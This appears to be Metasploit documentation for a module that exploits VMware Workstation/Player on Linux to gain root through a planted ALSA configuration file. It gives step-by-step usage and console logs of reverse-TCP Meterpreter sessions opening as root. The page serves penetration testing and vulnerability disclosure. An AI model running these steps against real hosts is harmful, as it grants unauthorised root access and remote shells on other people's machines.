 ## Description

  This module exploits a vulnerability in VMware Workstation Pro and
  Player on Linux which allows users to escalate their privileges by
  using an ALSA configuration file to load and execute a shared object
  as `root` when launching a virtual machine with an attached sound card.


## Vulnerable Application

  VMware Workstation Pro and VMware Workstation Player are the industry
  standard for running multiple operating systems as virtual machines on
  a single PC. Thousands of IT professionals, developers and businesses
  use Workstation Pro and Workstation Player to be more agile, more
  productive and more secure every day.

  This module has been tested successfully on:

  * VMware Player version 12.5.0 on Debian Linux 8 Jessie


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/vmware_alsa_config`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new `root` session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **Xdisplay**

  Display exploit will attempt to use (default: `:0`)


## Scenarios

### Command Shell Session - VMware Player 12.5.0 (Debian 8 Jessie)

  ```
  msf5 > use exploit/linux/local/vmware_alsa_config 
  msf5 exploit(linux/local/vmware_alsa_config) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/vmware_alsa_config) > set session 1
  session => 1
  msf5 exploit(linux/local/vmware_alsa_config) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/pSvQHD5S5fh/afLaYVIoUm.so.c' (526 bytes) ...
  [*] Writing '/tmp/pSvQHD5S5fh/pSvQHD5S5fh.vmx' (560 bytes) ...
  [*] Writing '/tmp/pSvQHD5S5fh/jl7XmpZWdE' (964720 bytes) ...
  [*] Writing '/home/user/.asoundrc' (116 bytes) ...
  [*] Launching VMware Player...
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.208:57796) at 2018-12-17 02:43:22 -0500
  [+] Deleted /home/user/.asoundrc
  [+] Deleted /home/user/Desktop/~/.vmware/preferences
  [!] Attempting to delete working directory /tmp/pSvQHD5S5fh
  [-] Exploit failed: negative array size (or size too big)

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.208
  OS           : Debian 8.8 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### Meterpreter Session - VMware Player 12.5.0 (Debian 8 Jessie)

  ```
  msf5 > use exploit/linux/local/vmware_alsa_config 
  msf5 exploit(linux/local/vmware_alsa_config) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/vmware_alsa_config) > set session 1
  session => 1
  msf5 exploit(linux/local/vmware_alsa_config) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/5irkXF31Iw/GHAPsWBkjix.so.c' (527 bytes) ...
  [*] Writing '/tmp/5irkXF31Iw/5irkXF31Iw.vmx' (558 bytes) ...
  [*] Writing '/tmp/5irkXF31Iw/Rxqj9taEcXol' (964720 bytes) ...
  [*] Writing '/home/user/.asoundrc' (116 bytes) ...
  [*] Launching VMware Player...
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.208:57799) at 2018-12-17 02:46:39 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.208
  OS           : Debian 8.8 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

